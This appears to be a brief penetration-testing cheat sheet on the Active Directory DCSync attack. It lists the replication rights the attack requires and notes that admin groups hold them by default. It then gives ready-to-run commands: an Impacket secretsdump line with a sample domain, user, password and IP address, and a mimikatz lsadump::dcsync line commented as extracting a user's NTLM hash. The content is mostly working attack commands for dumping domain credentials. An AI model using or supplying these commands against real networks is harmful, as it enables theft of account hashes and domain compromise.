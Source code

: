 ***
**Replicating Directory Changes / Replicating Directory Changes All / Replicating Directory Changes in Filtered Set rights**
Domain Admins/Enterprise Admins/Administrators group By Default
# Impacket
```bash
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```
# mimikatz
```powershell
.\mimikatz.exe
lsadump::dcsync /user:corp\dave #获取dave用户的NTLM hash
```